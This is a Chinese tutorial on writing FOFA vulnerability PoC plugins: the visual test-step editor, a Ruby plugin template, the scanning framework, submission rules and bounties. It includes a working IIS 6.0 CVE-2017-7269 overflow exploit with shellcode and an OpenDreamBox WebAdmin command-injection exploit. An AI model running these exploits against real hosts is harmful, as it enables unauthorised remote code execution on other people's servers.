

# 环境准备
- FOFA客户端
- wireshark（监测PoC的发包是否符合预期）

# 挑选漏洞
- fofa客户端里是否已有此漏洞POC？
- 是否能提取出对应程序的通用fofaquery？
- 漏洞能否直接利用？
- 漏洞是否能使用程序自动化完成？

----------
# 初级FOFA PoC编写
``仅需要了解http协议即可可视化编辑初级PoC，无需懂相关编程语言：）``

## 填写测试步骤
 

所有的字段都是必填项，要注意的是以下几点： 

- 标题：此字段应以**"产品名&nbsp;&nbsp;[版本]&nbsp;&nbsp;漏洞文件名&nbsp;&nbsp;漏洞名&nbsp;&nbsp;"**格式保存,版本号为可选项，如无法确认版本可省略，例如：WordPress全版本upload.php任意文件上传.

- 发现日期：此字段对应的是漏洞的披露时间，FOFA客户端会给一个默认值为当前日期，但是需要注意修改为正确的漏洞披露时间，如果是0day就无需更改。

- 来源：此字段对应的是在哪里披露此漏洞详情的，注意修改。
- 漏洞等级：级别为严重、高危、中危、低危，白帽子通过实际的情况判断漏洞等级。

- FOFA查询规则：在**产品**字段输入相应的产品名，如果自动补全了产品名，双击补全的产品名之后，对应的**FOFA查询规则**也会补全。如果没有自动补全，则需要手动构造FOFA查询规则，构造方法见：[FOFA首页](https://fofa.so/)
- 其他的字段：选择产品的时候除了自动生成生成已存在的规则，同时也会生成产品的主页。漏洞影响和解决方案提供模板供白帽子选择，可以根据实际情况修改，若有补丁需贴出补丁的地址。

## 填写测试步骤

1. 填写第一个要发送的request请求：Request   

所有的字段都是必填项，要注意的是以下几点：

   - 测试URI：此字段必须经过**url编码**，否则PoC无法正常运行。   
   - request请求组右方的逻辑符为**AND**时，表示**所有的ResponseTest都满足**时才会显示漏洞存在，为**OR**时表示只需要**满足一个ResponseTest**就显示漏洞存在。   

2. 填写第一个要验证的response响应：ResponseTest 
``小提示：右键测试组可新增测试组或测试项、右键测试项可删除或剪切测试项``    

所有的字段都是必填项，要注意的是以下几点：

   - 当然**变量字段**为**HTTP响应码**时，**操作字段**只能为**等于**或者**不等于**，否则可能会引发异常。   

3. 点击请求组右方的➕（加号）可继续添加Request／ResponseTest.
	
## 单例测试
将自己本地搭建的漏洞环境或互联网上已存在的漏洞案例进行测试

# 中级FOFA PoC编写 
``仅需要了解http协议以及变量的概念即可可视化编辑初级PoC，无需懂相关编程语言：）``

----------
## 自定义变量的应用
1. 设置变量

第一个输入框为要设置的**变量名**  
第二个输入框为**正则表达式**，括号内为要赋给变量的**值**  
第三个下拉框表示要从哪取值：
	- lastbody：本次response的响应体body
	- lastheader：本次response的响应头header
	- statusline：本次response的响应状态statusline  
  

2. 使用变量

使用变量需要``{{{变量名}}}``此格式才能正确调用  
**只能使用上个请求取的变量，不能使用本次请求取的变量**

# 高级FOFA PoC编写
``需要了解http协议、ruby编程、socket网络编程``

----------
##FOFASCAN扫描框架的使用
1. 进入fofascan的目录，位于**FOFA客户端目录/fofalib/fofascan**
2. 如果配置了环境变量则执行``ruby fofascan.rb``，没配置则需要使用ruby的绝对路径或者相对路径，FOFA客户端目录下附带了ruby，可直接使用。

##FOFA PoC说明
> FOFA PoC的本质的一个ruby脚本  
 FOFA PoC依赖于FofaScan框架（开源，源码位于程序目录的fofalib下）  
 
<pre>
	<code>
require 'fofa_core'

class FofaExploits < Fofa::Exploit
  def get_info
	{
      "Name": "Exploit Name",
      "Description": "Exploit Description",
      "Product": "",
      "Homepage": "https://fofa.so/",
      "DisclosureDate": "2017-06-02",
      "Author": "xxx",
      "FofaQuery": "",
      "References": "[\"https://fofa.so/\"]",
      "ScanSteps": [
            "AND",
            {
                  "Request": {
                        "method": "GET",
                        "uri": "/test.php",
                        "header": {},
                        "data": ""
                  },
                  "ResponseTest": {
                        "type": "group",
                        "operation": "AND",
                        "checks": [
                              {
                                    "type": "item",
                                    "variable": "$code",
                                    "operation": "==",
                                    "value": "200",
                                    "bz": ""
                              },
                              {
                                    "type": "item",
                                    "variable": "$body",
                                    "operation": "contains",
                                    "value": "test",
                                    "bz": ""
                              }
                        ]
                  },
                  "SetVariable": [
                        "cookie|statusline|regex|Set-Cookie:(.*?)"
                  ]
            },
            {
                  "Request": {
                        "method": "GET",
                        "uri": "/test.php",
                        "header": {},
                        "data": ""
                  },
                  "ResponseTest": {
                        "type": "group",
                        "operation": "AND",
                        "checks": [
                              {
                                    "type": "item",
                                    "variable": "$code",
                                    "operation": "==",
                                    "value": "200",
                                    "bz": ""
                              },
                              {
                                    "type": "item",
                                    "variable": "$body",
                                    "operation": "contains",
                                    "value": "test",
                                    "bz": ""
                              }
                        ]
                  },
                  "SetVariable": []
            }
      ],
      "fofacliversion": "1.0.15",
      "Posttime": "2017-06-02 18:21:05",
      "status": 0
}
	end

  def initialize(info = {})
    super( info.merge(get_info()) )
  end

  def vulnerable(hostinfo)
    excute_scansteps(hostinfo) if @info['ScanSteps']
  end

  def exploit(hostinfo)
  end
end
	</code>
</pre>

- **get_info**函数用于获取PoC的基本信息以及测试步骤
- **initialize**函数主要用于将get_info的返回数据进行初始化到类中
- **vulnerable**函数主要用于从FOFA中取出**hostinfo**并进行漏洞验证，也就是执行在客户端中编写的**测试步骤**，并返回**true**或**false**，表示是否存在漏洞。
- **exploit**函数会在**vulnerable**返回为true时执行，其中一般填写ruby的漏洞利用脚本。（执行fofascan的-o e参数时，此函数才会生效）

##FOFA PoC自定义vulnerable函数
<pre>
	<code>
	  def vulnerable(hostinfo)
	    excute_scansteps(hostinfo) if @info['ScanSteps']
	  end
	</code>
</pre>  

如果您熟悉ruby，大概一眼就能看出来，vulnerable函数实际时调用了FOFA PoC get_info函数中的ScanSteps

在ScanSteps不满足PoC需要的时候，您大可以把``excute_scansteps(hostinfo) if @info['ScanSteps']``这行代码删除，FOFA PoC中编辑的**测试步骤**（ScanSteps）就无效了，直接用ruby脚本进行发包以及验证（不能引入第三方gem包），最终要return一个true或false。

如果想在请求中使用随机数，或者其他的“活”的字符串，但又不想写原生的ruby http代码，怎么办呢。例如我想让Referer是随机数，可以如下:

<pre>
	<code>
	  def vulnerable(hostinfo)
	  	info['ScanSteps'][1]["Request"]["header"]["Referer"]= rand(500).to_s
	    excute_scansteps(hostinfo) if @info['ScanSteps']
	  end
	</code>
</pre>

##编写二进制漏洞FOFA PoC
``思路：自定义vulnerable函数，使用ruby编写socket程序``  
案例如下：**IIS6.0 cve-2017-7269 远程溢出 FOFA PoC**  
<pre>
	<code>
def vulnerable(hostinfo)
  hostinfo = "http://"+hostinfo if !hostinfo.start_with?"http"
  hostinfo = URI(hostinfo)
  
  buf1 = "If: <http://localhost/aaaaaaa"
  buf1 << "\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac"
  buf1 << ">"
  buf1 << " (Not <locktoken:write1>) <http://localhost/bbbbbbb"
  buf1 << "\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81"
  shellcode = 'VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397N10WRJLMSSI7LNR72JPTKOXPQ3PV0ENM02NPNQNWNMNWOBNVP9KPOS2O2NT4S52N44NMB4RYD0C5OJMPBTQURX44NORH2TRMBLLMKZPCRORNSDQU2N2TNMPL1URN2GT4S8OJOBOFMPLMKZLMLJOXOX1924MPOSPV0ENMNRP0NQNWNMOGNROFP9O01CRU3333RET3SCM0M0A'
  
  buf1 << shellcode
  
  
  Socket.tcp(hostinfo.host, hostinfo.port,connect_timeout:5) {|sock|
    sock.puts("PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n#{buf1}>\r\n\r\n")
    res = sock.recv(1024)
    if res.include?"HHIT CVE-2017-7269 Success"
      return TRUE
    end
    sock.close_write
  }
  return FALSE
end
	</code>
</pre>
## FOFA PoC的利用模块
``思路：点击验证框，勾选漏洞验证，定义要接受的参数的名称、值。然后在exploit模块接受命令和参数利用。`` 

勾选漏洞验证后，添加完参数，会在FOFA PoC 的get_info函数生成以下json字段，对应我们填写的参数名称和值。
<pre>
	<code>
      "HasExp": true,
      "ExpParams": [
            {
                  "name": "cmd",
                  "type": "textarea",
                  "value": "whoami"
            }
      ]
	</code>
</pre>

案例如下：**OpenDreamBox 2.0.0 - Plugin WebAdmin 远程命令执行** 
<pre>
	<code>
 def exploit(hostinfo)
    host, port = hostinfo.split(":")
    http = Net::HTTP.new(host, port)
    http.open_timeout = 10
    cmd = fetch_cfg('cmd')
    path = "/webadmin/script?command=|#{cmd}"
    resp = http.get(path)
    out = { "state": 1, "progress": 30, "output": "", "error": "" }
    puts out.to_json
    body = resp.body.force_encoding('UTF-8')
    if body&&body.empty?
      out = { "state": 3, "progress": 100, "output": body, "error": "failed" }
      puts out.to_json
    else body.include? "bin/sh: /usr/script/: Permission denied"
      out = { "state": 2, "progress": 100, "output": body, "error": "failed" }
      puts out.to_json
    end
    {}
	</code>
</pre>
编写exploit模块的时候，用 **cmd = fetch_cfg('cmd')** 接收json中的ExpParams中命令参数的值。
页面中需要返回一个json，确保fofascan不会出错。返回的结果可根据实际情况渲染、匹配正确的结果。
<pre>
    out = { "state": 1, "progress": 30, "output": "", "error": "" }	
</pre>
json的格式说明，**"state"："1"** 表示命令执行中，**"state"："2"** 表示执行完成，**"state"："3"** 表示执行失败。
后续版本会完善漏洞利用模块，在客户端展示，目前仅支持命令行利用。

**展示效果如下：**

# FOFA PoC提交
1. 文件名中不能含有除a-z(所有小写英文字母) A-Z(所有大写英文字母) _(下划线) .(英文句号)意外的任何字符。

2. 保存的文件名应以**“产品名\_漏洞文件名\_漏洞名.rb”** 的格式保存，例如：**WordPress core.php文件 sql注入**，则文件名应为**Wordpress\_core.php_sqli.rb**

----------
# FOFA PoC奖励
- 一个PoC审核通过之后获得首次奖励，奖励额为PoC的价格。

- 有企业购买PoC之后可获得二次奖励，奖励额为PoC价格的50%。

----------
# FOFA PoC扫描
- 需要进行实名认证，认证步骤：
	1. 登陆[FOFA.SO](https://fofa.so/)->个人中心->财务中心->银行卡->添加银行卡，绑定银行卡。
	
	2. 提交**身份证正反面**、**手持身份证照片**至**fofa@baimaohui.net** 

----------